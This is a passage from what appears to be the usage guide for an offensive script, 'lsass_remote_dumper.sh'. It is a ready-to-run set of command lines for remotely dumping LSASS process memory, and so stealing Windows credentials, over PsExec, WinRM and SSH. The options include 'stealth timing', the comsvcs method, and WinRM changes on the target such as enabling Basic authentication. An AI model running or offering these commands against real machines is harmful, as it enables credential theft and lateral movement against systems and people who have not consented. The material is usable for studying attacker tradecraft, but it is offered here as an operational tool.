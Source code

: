 # Combine with stealth timing
./lsass_remote_dumper.sh -r -t 192.168.1.101 -u admin -p "password" \
  -x psexec -m comsvcs -s -c -q


Method 3: WinRM (Windows Remote Management)

PowerShell Remoting

Bash


# Standard WinRM operation
./lsass_remote_dumper.sh -r -t 192.168.1.102 -u admin -p "password" \
  -x winrm -m powershell

# WinRM with SSL (port 5986)
./lsass_remote_dumper.sh -r -t server.corp.com:5986 -u admin -p "password" \
  -x winrm -m comsvcs


WinRM Configuration

Bash


# Test WinRM connectivity first
winrs -r:192.168.1.102 -u:admin -p:password "echo WinRM Test"

# Configure WinRM if needed (on target)
# winrm quickconfig -force
# winrm set winrm/config/service/auth @{Basic="true"}


Method 4: SSH Execution

SSH-based Remote Operations

Bash


# SSH remote dump (Windows with OpenSSH)
./lsass_remote_dumper.sh -r -t 192.168.1.103 -u admin -p "password" \
  -x ssh -m powershell

# SSH with key-based authentication (if configured)
./lsass_remote_dumper.sh -r -t server.corp.com -u admin \
  -x ssh -m comsvcs --port 22
